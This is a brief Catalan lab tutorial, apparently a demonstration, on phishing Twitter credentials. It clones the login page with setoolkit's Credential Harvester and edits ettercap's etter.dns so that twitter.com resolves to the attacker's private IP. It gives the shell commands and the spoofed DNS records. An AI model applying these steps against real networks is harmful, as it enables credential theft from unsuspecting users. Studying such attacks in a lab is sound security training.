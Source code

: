 \documentclass[]{article}
\begin{document}
Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i
com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina
anomenada ``setoolkit'' i fer un clonatge de la pàgina de Twitter.

Posteriorment suplantar el registre DNS en la que apuntava a twitter.com
a la nostra màquina, on hi tenim un allotjat una pàgina fraudulenta
utilitzant l'eina.

\emph{Website Attack Vectors -\textgreater{} Creditials Harvestor
-\textgreater{} Clone website / Use Web Template}

Utilitzarem un ``toolkit'' anomenat ``setooklit'' que es permetrà fer
phishing a una pàgina i fer un clonatge perfecte.

\texttt{[image: ./tex2pdf.-142b9dd0706d5021/30c24d2469ccc294b42630c6115feaeac6b7f5f9.png]}

Podem fer un clonatge d'una pàgina web o també té ``templates'' pre
definides. En aquest exemple utilitzarem el template de
https://www.twitter.com

Tarda una estona.

\texttt{[image: ./tex2pdf.-142b9dd0706d5021/44bccdec6ac0bd4dd15cfeb35c4ef1620f40c6c4.png]}

\texttt{[image: ./tex2pdf.-142b9dd0706d5021/53a2dc3d1e97079d48a914c5d363d4ed4b37761a.png]}

Com podem observar la pàgina de Twitter està a la nostra IP
10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la
meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com
apunto a la nostra IP.

\texttt{apt-get\ install\ mlocate}

\texttt{updatedb}

\texttt{locate\ etter.dns}

┌──(root㉿osboxes)-{[}/home/anonymous{]} └─\# locate etter.dns
/etc/ettercap/etter.dns /usr/share/ettercap/etter.dns.examples

\texttt{cp\ /etc/ettercap/etter.dns\ /etc/ettercap/etter.dns.original}

\texttt{vi\ /etc/ettercap/etter.dns}

\begin{verbatim}
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
\end{verbatim}
\end{document}
